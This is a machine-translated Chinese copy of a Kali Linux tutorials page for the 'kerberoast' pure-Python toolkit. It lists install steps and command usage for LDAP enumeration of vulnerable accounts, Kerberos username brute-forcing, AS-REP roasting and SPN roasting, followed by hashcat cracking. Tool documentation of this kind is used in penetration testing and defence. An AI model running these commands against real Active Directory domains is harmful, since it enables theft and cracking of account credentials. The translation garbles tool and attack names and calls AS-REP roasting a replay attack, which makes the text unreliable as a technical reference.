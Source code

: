 # Kerberos ast:Kerberos ast 攻击-纯 Python-

> 原文：<https://kalilinuxtutorials.com/kerberoast/>

[![](img//00b2707312aa65a2ed72aaeb63adef7e.png)](https://blogger.googleusercontent.com/img/a/AVvXsEgUe2CUSMsU480pQCpY3QX7XF9W7qxvTFlf0du0fCj76gxXB9Ewb7AkzNKXQuPx1sg1a87Mhe3CT9G4igujaIRN7q99LExwXlNawQTFag1CL3HC6BQ2sZlzw0-losEpdGOTcwmK94cdFZSOR9kPifsSv2gQPXP_mww_J8uURgb73GPJ7rHYWNCKJDef=s760)

**Kerberos ast**攻击工具包——纯 python

**安装**

**pip3 安装 Kerberos ast**

**先决条件**

Python 3.6 参见 requirements.txt

**为不耐烦的**

重要提示:LDAP 和 Kerberos 可接受的目标 url 格式如下:
**`<ldap_connection_url>`:`<protocol>+<auth-type>://<domain>\<user>:<password>@<ip_or_hostname>/?<param1>=<value1>`
`<kerberos_connection_url>`:`<protocol>+<auth-type>://<domain>\<user>:<password>@<ip_or_hostname>/?<param1>=<value1>`**

步骤-与 SSPI-: `**kerberoast auto <DC_ip>**`

步骤-未使用 SSPI:

*   通过 LDAP
    `**kerberoast ldap all <ldap_connection_url> -o ldapenum**`查找易受攻击的用户
*   在`**ldapenum_asrep_users.txt**`文件中对用户使用 ASREP bake
    `**kerberoast asreproast <DC_ip> -t ldapenum_asrep_users.txt**`
*   使用 SPN 烤兑用户在`**ldapenum_spn_users.txt**`文件
    中`**kerberoast spnroast <kerberos_connection_url> -t ldapenum_spn_users.txt**`
*   用 hashcat 破解 SPN 烘焙和 ASPREP 烘焙输出

**命令**

**ldap**

此命令组用于通过 LDAP 枚举潜在易受攻击的用户。

**指挥结构**

`**kerberoast ldap <type> <ldap_connection_url> <options>**`

`**Type**`:支持列举三种类型的用户

*   `**spn**`枚举设置了`**servicePrincipalName**`属性的用户。
*   `asrep`列举在其 UAC 属性中设置了`**DONT_REQ_PREAUTH**`标志的用户。
*   开始上面提到的所有枚举。

`**ldap_connection_url**`:以 msldap url 格式指定用户凭证和目标服务器(参见帮助)

**`options` :
`-o`** :输出文件基础名

**蛮**

该命令通过强制 kerberos 服务使用可能的候选用户名来执行用户名枚举

**指挥结构**

`**kerberoast brute <realm> <dc_ip> <targets> <options>**`

`**realm**`:Kerberos 领域通常看起来像`**COMPANY.corp**`
`**dc_ip**`:域控制器的 IP 或主机名
`**targets**`:包含可能的候选用户名
`**options**`的文件的路径:
`**-o**`:输出文件基本名称

**asreproast**

该命令用于执行重播攻击

**指挥结构**

`**kerberoast asreproast <dc_ip> <options>**`

`**dc_ip**`:域控制器
`**options**`的 IP 或主机名:
`**-r**`:指定要使用的 kerberos 领域。它会覆盖所有其他领域信息。
`**-o**`:输出文件基名
`**-t**`:包含对
`**-u**`进行攻击的用户名的文件路径:指定要攻击的用户。格式是`<username>`或`<username>@<realm>`，但是在第一种情况下，必须使用`-**r**`选项来指定领域

**spnroast**

该命令用于执行 SPNroast(又名 kerberoast)攻击。

**指挥结构**

`**kerberoast spnroast <kerberos_connection_url> <options>**`

**`kerberos_connection_url` :** 以 kerberos URL 格式指定用户凭证和目标服务器(参见帮助)

`**options**` :
`**-r**`:指定要使用的 kerberos 领域。它会覆盖所有其他领域信息。
`**-o**`:输出文件基名
`**-t**`:包含对
`**-u**`进行攻击的用户名的文件路径:指定攻击的用户。格式是`**<username>**`或`**<username>@<realm>**`，但是在第一种情况下，必须使用`**-r**`选项来指定领域

[**Download**](https://github.com/skelsec/kerberoast)